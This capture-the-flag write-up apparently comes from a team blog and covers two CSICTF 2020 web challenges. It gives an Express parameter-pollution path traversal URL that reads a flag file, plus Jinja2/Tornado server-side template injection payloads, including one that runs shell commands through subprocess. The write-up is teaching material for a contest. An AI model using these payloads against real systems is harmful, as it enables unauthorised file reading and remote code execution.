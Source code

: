 ```yaml
---
title: CSICTF 2k20 - Web Exploitation
summary: Web exploitation writeups of CSICTF 2k20 - File Library Task and The Unusual Suspects Web tasks
date: "2020-07-21T08:00:00Z"

reading_time: true  # Show estimated reading time?
share: true  # Show social sharing links?
profile: true  # Show author profile?
comments: true  # Show comments?
# Optional header image (relative to `static/img/` folder).
header:
  caption: ""
  image: ""
---
```


After a long week of work I decided to participate in CSICTF2k20 with my team Fword since I didn't participate for a long time :( We were among the top 30 teams and we managed to almost solve all Web exploitaion tasks with my teammate @Hera. However I enjoyed solving File Library and The Usual Suspects tasks.

# File Library 497pts (40 solves) #

 ![TASK](https://imgur.com/IRJZKbM.png)
 
 We are given the source code of the task :
 
 ```js
const express = require('express');
const path = require('path');
const fs = require('fs');

const app = express();

const PORT = process.env.PORT || 3000;

app.listen(PORT, () => {
    console.log(`Listening on port ${PORT}`);
});

app.get('/getFile', (req, res) => {
    let { file } = req.query;
    console.log("file is: "+file);
    if (!file) {
        res.send(`file=${file}\nFilename not specified!`);
        return;
    }

    try {

        if (file.includes(' ') || file.includes('/')) {
            res.send(`file=${file}\nInvalid filename!`);
            return;
        }
    } catch (err) {
        res.send('An error occured!');
        return;
    }

    if (!allowedFileType(file)) {
        res.send(`File type not allowed`);
        return;
    }

    if (file.length > 5) {
        file = file.slice(0, 5);
    }

    const returnedFile = path.resolve(__dirname + '/' + file);
   console.log("returnedFile: "+returnedFile);
    fs.readFile(returnedFile, (err) => {
        if (err) {
            if (err.code != 'ENOENT') console.log(err);
            res.send('An error occured!');
            return;
        }

        res.sendFile(returnedFile);
    });
});

app.get('/*', (req, res) => {
    res.sendFile(__dirname + '/index.html');
});

function allowedFileType(file) {
    const format = file.slice(file.indexOf('.') + 1);
console.log("index +1 is "+file.indexOf('.') + 1);    
console.log("format inside allowedfile is: "+format);
    if (format == 'js' || format == 'ts' || format == 'c' || format == 'cpp') {
        return true;
    }

    return false;
}

 ```
 I added some logging statements to facilitate things, as you can see when we visit **/getfile** we can provide in a get parameter a filename that will be displayed for us but there are some restrictions,
 we can't use whitespaces or "/", there are only four extensions that are allowed (js|ts|c|cpp) .

![TASK](https://imgur.com/ClTfqlL.png)
 
 After reading carefully the source code, I was pretty sure that we will use http parameters pollution because there is no check concerning the type of get parameters so we can enter an array and try to exploit the misbehaviour that may occur.
 
 Let's imagine that we enter the following array :
 
 > ["../../","../../","../../","../../","../../proc/self/cwd/flag.txt",".","js"]
 
* **1st Check** : ``` if (file.includes(' ') || file.includes('/')) ``` 
 
 When includes is applied to an array it will check if there's a field that is equal to the passed parameter (" " and "/" in our case) which is false here so we can successfully pass this check
 
* **2nd Check** : ``` if (!allowedFileType(file)) ```

Let's take a look at the code of this function :

```js

function allowedFileType(file) {
const format = file.slice(file.indexOf('.') + 1);
    if (format == 'js' || format == 'ts' || format == 'c' || format == 'cpp') {
        return true;
    }

    return false;
}

```

It will slice our array beginning from the indexOf(".")+1 so in our case the result will be the last field of our array which is "js" and Bingo we will also pass this check :D

The following lines will remove the last two fields of our array :

```js
if (file.length > 5) {
  file = file.slice(0, 5);
}
```
so our array will become:

> ["../../","../../","../../","../../","../../proc/self/cwd/flag.txt"]

And finally after resolving the path returnedFile will contain /proc/self/cwd/flag.txt

```js
const returnedFile = path.resolve(__dirname + '/' + file);
```
**Note:** __dirname which is the current directory is ignored because of our "../../" fields, and **/proc/self/cwd** is equivalent to the current directory.

So finally our array will be resolved to the path we want, this is the final payload which is only a traduction to what we said before:

```
http://chall.csivit.com:30222/getfile?file[]=../../&file[]=../../&file[]=../../&file[]=../../&file[]=../../proc/self/cwd/flag.txt&file[]=.&file[]=js
```
![TASK](https://imgur.com/sdvZ1eL.png)

It was a really nice task so thanks to the author!

# The Usual Suspects 499pts (32 solves) #
 
![TASK](https://imgur.com/qorhTCy.png)
 
 Visiting the website, a well trained eye can directly notice the possibility of an SSTI attack in icecream parameter.
 
![TASK](https://imgur.com/zbwADG6.png) 
 
We thought that it was a typical SSTI task but unfortunately even after getting RCE using the usual jinja2 SSTI payloads we didn't find anything. The first payload we used:

> {{ ''.__class__.__mro__[1].__subclasses__()\[270\]('ls',shell=True,stdout=-1).communicate()}}

After this step we really didn't know what to do, the server used here was Tornado, which is an asynchronous python web server so I started reading its documentation and I noticed that the Main class always inherits from **tornado.web.RequestHandler**.
After some digging I got a nice idea , what if we list all the subclasses of Object ( The super class, it's the parent of all classes) Then we will list the subclasses of tornado.web.RequestHandler and finally we will check the globals of **get** function from MainHadnler class.

* Get the RequestHandler class:

> {{ ''.__class__.__mro__[1].__subclasses__()[363]}} 

* Get the MainHandler class which inherits from RequestHandler

> {{ ''.__class__.__mro__[1].__subclasses__()[363].__subclasses__()[-1]}} 

And finally we will see the __globals__ of get function ( **__globals__** is a reference to the dictionary that holds the function’s global variables ).
Final payload: 

```
{{ ''.__class__.__mro__[1].__subclasses__()[363].__subclasses__()[-1].get.__globals__}}
```
Bingo we got our flag :D I asked the admin and he told me that this is the unintended solution of the task.

![DISCORD](https://imgur.com/8pcqJ3T.png)

If you have any questions you can contact me on twitter @BelkahlaAhmed1 or contact our team twitter @FwordTeam ! I hope that you liked the writeup, and don't forget to participate in FwordCTF on 29th of August , a lot of fun challenges will be there.
